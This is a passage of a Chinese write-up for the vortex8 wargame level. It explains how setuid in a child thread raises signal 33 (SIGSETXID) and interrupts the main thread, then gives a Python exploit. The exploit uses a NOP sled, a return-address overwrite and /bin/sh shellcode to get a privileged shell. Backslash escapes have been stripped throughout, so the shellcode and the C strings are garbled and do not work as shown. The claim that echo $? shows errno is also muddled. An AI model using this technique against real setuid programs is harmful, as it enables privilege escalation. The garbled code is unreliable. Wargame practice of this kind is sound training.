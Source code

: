 <p style="text-indent: 2em;">
  那么问题到底应该是出在了什么地方呢？仔细观察我们会发现，网上几乎所有的资料中，都无视了两个信号，编号为32和33的信号，这便是关键所在了，32号信号是SIGCANCEL，33号信号是SIGSETXID，这两个信号可能是与系统相关，具体不清楚，但至少在我的Ubuntu中应该是这样了，通过33号信号的名字就很明显可以看出，这个信号绝对跟setuid有着不解的联系。通过gdb，我们也会发现，我们的程序进入了一个叫做sighandler_setxid的函数中，一看便觉得这是SIGSETXID的信号处理函数。
</p>

<p style="text-indent: 2em;">
  最后，为了进一步确认我的想法，我写了个程序来测试：
</p>

<pre class="brush:cpp;toolbar:false">#include&nbsp;&lt;stdio.h&gt;
#include&nbsp;&lt;pthread.h&gt;

void&nbsp;*sub()
{
&nbsp;&nbsp;&nbsp;&nbsp;sleep(1);
&nbsp;&nbsp;&nbsp;&nbsp;printf("Setuidn");
&nbsp;&nbsp;&nbsp;&nbsp;setuid(0);
}

void&nbsp;main()
{
&nbsp;&nbsp;&nbsp;&nbsp;pthread_t&nbsp;x;
&nbsp;&nbsp;&nbsp;&nbsp;pthread_create(&x,&nbsp;NULL,&nbsp;&sub,&nbsp;NULL);
&nbsp;&nbsp;&nbsp;&nbsp;printf("Beginn");
&nbsp;&nbsp;&nbsp;&nbsp;pause();
&nbsp;&nbsp;&nbsp;&nbsp;//sleep(5);
&nbsp;&nbsp;&nbsp;&nbsp;printf("Endn");
}</pre>

<p style="text-indent: 2em;">
  会发现Setuid和End是在同一时间输出，然后程序结束，同时程序的errno为4（通过echo $?可以看到），代表Interrupted system call。而在注释掉setuid(0)后，程序输出了Setuid后便会一直停在那里等候，不会结束。
</p>

<p style="text-indent: 2em;">
  至此，我们便分析清楚了之前问题的原因，这也很好的解释了为什么之前实验中我会有一次成功（由于在不同的线程，那次setreuid在主线程的sleep(5)开始前运行），那么通过这种方法来破掉这一关应该也是可行的。
</p>

<p style="text-indent: 2em;">
  首先通过gdb，我们获取到子线程的ebp为0xf7e0b368，可以大概估计位置修改，这里我就利用gdb调试的结果精确定位了，子线程中sleep函数返回地址存在0xf7e0b33c，将该位置改为0xffffdf04即可。
</p>

<pre class="brush:python;toolbar:false">#!/usr/bin/env&nbsp;python

import&nbsp;subprocess

addr&nbsp;=&nbsp;&#39;x04xddxffxff&#39;
#&nbsp;xb9x3cxb3xe0xf7&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;mov&nbsp;$0xf7e0b33c,&nbsp;%ecx
#&nbsp;xc7x01x04xdfxffxff&nbsp;&nbsp;movl&nbsp;$0xffffdf04,&nbsp;(%ecx)
#&nbsp;xebxfe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;jmp&nbsp;self&nbsp;死循环
code&nbsp;=&nbsp;&#39;xb9x3cxb3xe0xf7&#39;&#39;xc7x01x04xdfxffxff&#39;&#39;xebxfe&#39;
shellcode&nbsp;=&nbsp;"jx0bXx991xc9Rh//shh/binx89xe3xcdx80"
subprocess.Popen([&#39;/vortex/vortex8&#39;,&nbsp;&#39;x90&#39;&nbsp;*&nbsp;1036&nbsp;+&nbsp;addr],&nbsp;env&nbsp;=&nbsp;{&#39;&#39;&nbsp;:&nbsp;&#39;x90&#39;&nbsp;*&nbsp;500&nbsp;+&nbsp;code&nbsp;+&nbsp;&#39;x90&#39;&nbsp;*&nbsp;500&nbsp;+&nbsp;shellcode}).communicate()</pre>
